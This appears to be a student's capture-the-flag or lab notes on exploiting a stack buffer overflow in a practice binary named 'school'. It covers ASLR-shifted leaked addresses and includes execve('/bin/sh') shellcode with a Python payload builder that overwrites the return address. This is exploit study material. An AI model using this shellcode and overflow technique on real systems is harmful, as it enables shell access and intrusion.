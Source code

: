 So....wtf

Trying to fix the stack
Adding this assembly:
```
mov rbp,0x7fffffffddb0
mov rsp,rbp
sub rsp,0x60

"\x48\xBD\xB0\xDD\xFF\xFF\xFF\x7F\x00\x00\x48\x89\xEC\x48\x83\xEC\x60"
```
This should set rbp and rsp to reasonable values

With this before my code, it is EXACTALLY 40 bytes

This did not work lol

Wait...is the address the same every time?

OH FUCK ME
```
┌──(kali㉿kali)-[~/Desktop/5-Week]
└─$ ./school
Let's go to school! School's at: 0x7ffc0b2e9e60. gimme directions:
^Z
zsh: suspended  ./school

┌──(kali㉿kali)-[~/Desktop/5-Week]
└─$ ./school
Let's go to school! School's at: 0x7ffee7302000. gimme directions:
^Z
zsh: suspended  ./school

┌──(kali㉿kali)-[~/Desktop/5-Week]
└─$ ./school
Let's go to school! School's at: 0x7ffe37d6b640. gimme directions:
^Z
zsh: suspended  ./school

```
She changes...

Setting us up to run properly:
```python
def anotherFuckingPld(a):
	code = b'\x48\x31\xF6\x56\x48\xBF\x2F\x62\x69\x6E\x2F\x2F\x73\x68\x57\x54\x5F\x6A\x3B\x58\x99\x0F\x05'
	p = 40 - len(code)
	pad = b'A'*p
	addr = p64(int(a, 16))
	#addr = p64(ad)
	return code + pad + addr

def testPld():
	p =  process('/bin/bash')
	p.sendline('gdb ./school -q')
	p.sendline("break *0x0000000000400681")
	#p = process('./school')
	p.sendline("r")
	#p.interactive()
	p.recvuntil("at: ")
	a = cleanLine(p.recvuntil("."))
	#print(a)
	ad =  re.split("\.", a)
	addr = ad[0]
	#print(addr)
	p.recvuntil("directions:")
```
